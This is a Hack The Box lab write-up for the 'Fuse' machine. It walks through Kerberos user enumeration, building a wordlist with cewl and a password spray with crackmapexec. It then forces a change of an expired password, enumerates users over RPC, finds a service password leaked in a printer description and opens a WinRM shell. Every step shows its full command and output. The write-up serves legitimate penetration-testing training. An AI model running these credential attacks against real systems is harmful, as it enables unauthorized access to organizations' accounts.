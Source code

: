 # 15 - LDAP

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/fuse]
└──╼ $ kerbrute userenum   -d fabricorp.local --dc 10.10.10.193  user.lst  

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 08/07/21 - Ronnie Flathers @ropnop

2021/08/07 14:31:35 >  Using KDC(s):
2021/08/07 14:31:35 >   10.10.10.193:88

2021/08/07 14:31:35 >  [+] VALID USERNAME:       bhult@fabricorp.local
2021/08/07 14:31:35 >  [+] VALID USERNAME:       pmerton@fabricorp.local
2021/08/07 14:31:35 >  [+] VALID USERNAME:       sthompson@fabricorp.local
2021/08/07 14:31:35 >  [+] VALID USERNAME:       tlavel@fabricorp.local
2021/08/07 14:31:35 >  [+] VALID USERNAME:       administrator@fabricorp.local
```

The very first thing we should do is enumerate the usernames we found earlier against the DC. Always add another username, that you know it does not exist, to the list to ensure the service isn't configured in such a way to reply *valid* for every username.

All the accounts seem to be valid. Let's proceed to password generation.


# Custom word generation
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/fuse]
└──╼ $ cewl -d 8 -m 7 -w wordlist --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm
```

* `-d`                             Depth to spider to,
* `-m`                             Minimum word length
* `-w`                             Write the output to the file.
* `--with-numbers`   Accept words with numbers


The print log from the webserver is the perfect candidate for password generation.


# PASSWORD MUST CHANGE 
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/fuse]
└──╼ $ cme smb 10.10.10.193 -u user.lst -p wordlist --shares
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:PaperCut STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:GRAYSCALE STATUS_LOGON_FAILURE                     
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:papercut STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Notepad STATUS_LOGON_FAILURE                      
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:sthompson STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:LONWK019 STATUS_LOGON_FAILURE                         
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Printer STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Document STATUS_LOGON_FAILURE                       
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Grayscale STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Software STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Copyright STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Location STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Refresh STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:NotepadLETTER STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Language STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:logging STATUS_LOGON_FAILURE                
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:printing STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:program STATUS_LOGON_FAILURE            
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:additional STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:features STATUS_LOGON_FAILURE             
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:International STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:pmerton STATUS_LOGON_FAILURE                 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Starter STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:bnielson STATUS_LOGON_FAILURE             
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Meeting STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Minutes STATUS_LOGON_FAILURE                            
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:LONWK015 STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:mountain STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:request STATUS_LOGON_FAILURE                                                                                   
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
```

After doing a password spray, we discover that bhult has the password 'Fabricorp01' but it has expired. Therefore, we need a tool to change the password to log in. Bear in mind that password resets every two minutes and the user does not have remote access privilege.


# Password change and RPC
```sql
┌─[user@parrot]─[10.10.14.18]─[~/htb/fuse]
└──╼ $ smbpasswd  -r 10.10.10.193 -U bhult && rpcclient 10.10.10.193 -U 'bhult'
Old SMB password:Fabricorp01
New SMB password:Refikpass1625
Retype new SMB password:Refikpass1625
Password changed for user bhult
Enter WORKGROUP\bhult's password:                                                                                                                                                             

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```


Let's add these new users to our list.

# Printer password
```bash
rpcclient $> enumprinters 
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

We know that there is a printer in the AD because of the print logger.


# svc-print

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/fuse]
└──╼ $ cme winrm 10.10.10.193 -u user.lst  -p '$fab@s3Rv1ce$1'
WINRM       10.10.10.193    5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)
WINRM       10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\scan2docs:$fab@s3Rv1ce$1
WINRM       10.10.10.193    5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)

```

The user has remote access. Let us log in with evil-winrm.


# Shell
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/fuse]
└──╼ $ evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'                              
                                               
Evil-WinRM shell v2.4               

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents>
```
